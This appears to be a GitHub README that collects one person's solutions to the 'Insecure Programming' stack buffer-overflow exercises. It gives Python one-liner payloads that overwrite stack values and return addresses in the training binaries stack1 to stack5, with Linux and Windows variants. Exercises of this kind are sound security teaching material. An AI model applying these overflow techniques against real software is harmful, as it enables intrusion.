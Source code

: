 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08)" | ./stack4"`
  
  Note: This solution was tested in Linux. This may not work for you (the distance between the buffer and the location of the return addres may vary. 
5. `$ python -c "print 'you win\x00' + '\x90\xcc' + '\x68\xf4\xfe\x18\x00' + '\xff\x15\x8c\x20\x40\x00' + 'A' * 67 + chr(0xfc) + chr(0xfe) + chr(0x18) + chr(0x0)" | stack5.exe`
  
  `$ python -c "print 'you win\x21\x00' + '\x68\xf4\xfe\x18\x00' + '\xff\x15\x8c\x20\x40\x00' + 'A' * 68 + '\xfd\xfe\x18\x00'" | stack2.exe`
  
  Note: The same as ex 4 but for Windows.

